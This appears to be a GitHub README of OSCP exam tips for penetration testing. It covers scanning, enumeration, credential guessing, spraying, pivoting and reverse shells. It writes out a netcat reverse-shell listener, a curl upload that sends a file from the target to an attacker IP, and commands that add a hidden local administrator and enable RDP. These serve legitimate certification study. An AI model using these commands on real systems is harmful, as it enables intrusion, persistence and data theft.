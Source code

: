 ## oscp-tips ##
### Tips and Tricks for OSCP and Beyond! ###

1 - Run a quick port scanner like threader3000 or rustscan first. You can save good amount of time by this way, for example threader3000 scans all ports and suggests nmap only for open ports only.

2 - Run nmap -sS for all ports, compare open ports with previous scan.

3 - Run -sU (UDP) for well-known ports.

4 - Run gobuster in dir mode for all http/https ports with common world list. See if anything interesting.

5 - Run gobuster in fuzz mode with common world list.

6 - Run gobuster recursively for anything interesting, like you find out a script directory, try to find out directories within script. You should do this upto 3-4 level.

7 - Run gobuster for file extension using -x, like for php or aspx.

8 - Check UDP scan, see if SNMP is allowed or not. If SNMP port is open use snmpwalk with well-known default community strings.

9 - Run snmp with extended MIB, check hacktricks for more details.

10 - Check HTML code, check title of the page, sometimes you will get vulnerable system name from title itself.

11 - Check nmap scan, try to connect to every port using telnet or nc. Send some random keys and see the response.

12 - Check hacktricks (https://book.hacktricks.xyz/) if you don't know or aware about pentesting of a port or service.

13 - Use rpcclient to enum users and other details if RPC ports are open.

14 – Revert machines and perform scan again.

15 – Listen reverse shell on same ports which are open on victim. For example, if port 445 is open on victim, bidirectional traffic might be allowed on same port too. You can use “nc -lvnp 445” to catch reverse shell on Kali in that case, if others are not working. Try 
port 80 and 443 as well.

16 – Always try default credentials wherever applicable. For example, admin/password, administrator/password or admin/admin. Search google for default credentials as well.

17 – Always try username and password as machine name as credential. For example, if machine name is “berlin”, try to login FTP (or any other service) with berlin/berlin. Try username without password.

18 – If machine is running a portal with employee name (or email), they can be potential usernames. Make a list and use it for spraying.

19 – Use “updog” to transfer data between target and Kali. You can upload data from target to Kali using below command.

curl.exe -v -XPOST -F "file=@./SharpHound.ps1;filename=SharpHound.ps1" -F "path=." http://192.168.45.229:9090/upload

Please note that for above command file “SharpHound.ps1” should be saved in same directory from where you are running command. You can use impacket-smbserver as well.

20 – If using msfvenom reverse shell, use msfconsole multi handler to catch it. 

21 - Compile C/C++ exploit with "-static" flag, it will allow to include all required libraries as few might be missing on target. You can avoid “GLIBC not found” error by compiling with “-static”.

22 – If you can get root on a Windows machine (standalone or form AD set), install nmap on that and scan remaining machines from there. Scan will be very fast, you will surely save time.

23 – If you are not able to copy files directly to target machine copy it to another target and copy from there. For example, if you have root access on MS01 and low-level access on MS02. It is possible that you might not be allowed to copy files (like winPEAS) 
directly from Kali to MS02. Create a share folder on MS01, copy files to that folder. Now you can copy files from MS01 to MS02.

24 – Use ligolo-ng for pivoting between machines. You can use script from https://github.com/isr4r/misc-scripts/blob/master/ligolo.sh to configure ligolo easily.

25 – Use chisel for local port forwarding. For example, a service is running on target which is only locally allowed (or from 127.0.0.1). You should use chisel in this situation to open access for this service from Kali.

26 – Always check for ports open or allowed locally (for 127.0.0.1). You can connect to these ports on same target machine using “telnet localhost <port number>”. It will give you an idea if something interesting is running.

27 – For AD Set, after getting system level access, which might be over CLI, create a new account as local admin, enable RDP, login and do further enum like running mimikatz. You can use below commands to create user and enable RDP.

For RDP (PowerShell commands)

•	Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0

•	Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

For Creating User

•	net user user1 Pass123 /add 

•	net localgroup Administrators user1 /add

28 – Try reverse shell from https://www.revshells.com/, keep trying as one of them will work in lab and in exam too.

29 – Try smbclient, FTP, rpcclient as null user or anonymous user or guest user as well. For example,

•	smbclient -U “” -L 192.168.120.20  

30 – If machine has an open source project check its github or code repo to understand directory structure.


